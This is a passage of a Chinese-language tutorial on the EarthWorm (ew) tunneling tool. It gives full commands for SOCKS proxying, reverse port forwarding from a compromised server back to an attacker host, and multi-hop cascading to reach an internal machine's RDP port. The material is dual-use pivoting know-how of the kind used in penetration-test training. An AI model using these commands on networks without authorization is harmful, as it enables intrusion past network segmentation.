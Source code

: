 ### 端口转发

这里着重说一下`lcx_tran`、`lcx_listen`、`lcx_slave`的用法。

案例一：

在attacker中启动一个socks5代理，端口是9999

```powershell
ew -s ssocksd -l 9999
```

**然后通过`lcx_tran`来转发9999到1080**

```powershell
ew.exe -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999
```

然后就能从client访问server了

```powershell
curl http://172.16.2.8 -x socks5://172.16.1.144:1080
```

实际上还是用attacker搭了一个socks5代理，**这个例子主要说的是lcx_tran的使用方法**。

 案例二：
attacker:

```powershell
ew.exe -s lcx_listen -l 1234 -e 8888
```
server: 
```powershell
ew.exe -s lcx_slave -d 192.168.1.100 -e 8888 -f 127.0.0.1 -g 3389
```

原理和lcx一样

### 多级级联

假如我们当前的网络环境如下

```powershell
a: 192.168.1.100
b: 192.168.1.101,10.0.0.1
c: 10.0.0.2,172.16.0.1
d: 172.16.0.2
```
那么我们怎么做才能让a访问到d的资源呢？

ew提供了多级级联

```powershell
a: ew.exe -s lcx_listen -l 1080 -e 8888
b: ew.exe -s lcx_slave -d 192.168.1.100 -e 8888 -f 10.0.0.2  -g 9999
c: ew.exe -s lcx_tran -l 9999 -f 172.16.0.2 -g 3389
```

数据流向
